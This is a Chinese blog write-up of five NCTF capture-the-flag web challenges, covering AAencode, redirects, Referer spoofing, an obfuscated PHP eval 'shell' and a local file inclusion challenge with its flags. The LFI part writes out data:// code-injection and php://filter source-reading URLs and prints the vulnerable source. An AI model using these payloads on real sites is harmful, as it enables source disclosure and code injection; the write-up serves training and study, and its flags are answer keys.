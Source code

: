 ```yaml
---
layout: post
title: NCTF Web 5 题题解（Part 1）
tags: NCTF Write-up Web
---
```


* 目录：
{:toc}

### 100 AAencode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/*bgOs61*KFAG82G7BTNqrGItjt.ktJ5DEHDJE5kTwZ0!/r/dLAAAAAAAAAA){: width="80%"}  

	> javascript aaencode  
	> [http://115.28.150.176/aaencode.txt](http://115.28.150.176/aaencode.txt)  

* 题解:  
都提示是 JavaScript 了, 用浏览器的 console 跑一下试试看:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/7emM69dnS7ZiLfZmcGMc1mk0P7QN6H3wAiN4oNL7DWc!/r/dK0AAAAAAAAA){: width="100%"}  

* flag：nctf{javascript_aaencode}
<hr>

### 100 单身二十年  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/WYGRVUjGV*Seie8dVvZK0XeWSXdMghMl8ZSTwg7P1MQ!/r/dNwAAAAAAAAA){: width="80%"}  

	> 这题可以靠技术也可以靠手速！  
	> 老夫单身二十年，自然靠的是手速！  
	> 题目地址：[撸了他！](http://chinalover.sinaapp.com/web8/)  

* 题解:  
点第一个页面的链接, 仔细看的话能看出有跳转, 我手速真的很快, 尝试了一次就把中间那张图给截下来了:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/UJ8QZWkWjyr2Hb3Hn2cJ13jGbavVW50o85ufVdzGJ.4!/r/dHwBAAAAAAAA){: width="100%"}  
有跳转当然要用拦截工具了, Fiddler F11:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/4AA5qT.T.175*MSDjRHzZVQth8MBb0ABbzmuMMbdeUg!/r/dAYBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/n1ROW56tMZs59r2zFaCAfmgjNv13*X3dYTDmlSiKLwk!/r/dMYAAAAAAAAA){: width="100%"}  

* flag：nctf{yougotit_script_now}   
<hr>

### 100 你从哪里来  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/v*Uij.KE8SrMaM1tLIqjOglZk28IiVgEd.oIMsd3nn8!/r/dAsBAAAAAAAA){: width="80%"}  

	> 你是从 google 来的吗？   
	> [http://115.28.150.176/referer/index.php](http://115.28.150.176/referer/index.php)

* 题解:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/hTd7cZZ8kw.YdL*gWelw5gm1kdJ*X77oh2Igujh.I5U!/r/dNwAAAAAAAAA){: width="80%"}  
很明显, 改 HTTP requests 中的 `referer`, 可以用 firefox 的 tamper data 插件, 这里还是用 fiddler.    
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/uNpijEofdO0qmGhtguDly8WZGWnz91dZqLYAcHC3QjA!/r/dAoBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/iv38eCVvlcyWeP23wuUlYRV7KIAmzB0eVfMN7SEUQvk!/r/dHwBAAAAAAAA){: width="100%"}  

* flag：nctf{http_referer}   
<hr>

### 100 php decode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/1mXB.qFELl2GEUfhE6ulQMICaWnfaI1LQ7fTvxPlYEk!/r/dAoBAAAAAAAA){: width="80%"}  

	> 见到的一个类似编码的shell，请解码   
	> 
	> ```php   
	<?php
	function CLsI($ZzvSWE) {
		$ZzvSWE = gzinflate(base64_decode($ZzvSWE));
		for ($i = 0; $i < strlen($ZzvSWE); $i++) {
			$ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
		}
		return $ZzvSWE;
	}
	eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
	?>
	> ```  
	> 

* 题解:   
	首先运行题目给的代码, 结果解释器报错:  

	> Parse error: syntax error, unexpected '{' in D:\Course\CTF\NCTF\php decode\decode.php(16) : eval()'d code on line 2  

	那么回来看看出错的代码: `eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));` 
	eval 的参数必须是一个合法的 php 语句, 那么还是先把 eval 的参数输出看看再说, 代码改成`echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));`, 结果输出如下:

	> 锘縫hpinfo();  
	> flag:nctf{gzip_base64_hhhhhh}  

* flag：nctf{gzip_base64_hhhhhh}   




<hr>

### 150 文件包含  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/tIHjsm6TX.J6ADSq701wt770uWEjWxbA3IpLKPVB504!/r/dK0AAAAAAAAA){: width="80%"}  

	> 没错 这就是传说中的LFI  
	> 传送门[点我带你飞](http://4.chinalover.sinaapp.com/web7/index.php)  
	>   
	> TIPS:[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)  

* 题解:   
	题目是文件包含, 而且是 LFI, 即本地文件包含, 那应该就不是远程包含一句话这类思路了, 先试试直接写 shell 呢?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>](http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>)  
	结果是:  

	> Oh no!  

	嗯...试试读源码, php 有个特殊协议(其实我也不会php, 提示给的乌云drops很好, 但是乌云已经...:(, php://filter 用于数据流打开时的筛选过滤应用, 如果通过它读取 php 文件并编码成不能正常运行的形式, 就可以得到编码后的源码了, 试试?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)
	结果是:  

	> PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4=  

	base64 解码后:

	> ```  
	> <html>  
	> <title>asdf</title>  
    >  
	> <?php  
	> error_reporting(0);  
	> if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}  
	> $file=$_GET['file'];  
	> if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){  
	>     echo "Oh no!";  
	> exit();  
	> }  
	> include($file);   
	> //flag:nctf{edulcni_elif_lacol_si_siht}  
	> 
	> ?>  
	> </html>  
	> ```  

* flag：nctf{edulcni_elif_lacol_si_siht}
<hr>

<div style="display:inline;float:left">  
	<a href="/2016/10/02/writeup-nctf-web-part-0.html">上 • NCTF Web 5 题题解（Part 0）</a>  
</div>  
<div style="display:inline;float:right">  
	<a href="/2016/10/02/writeup-nctf-web-part-2.html">下 • NCTF Web 5 题题解（Part 2）</a>  
</div>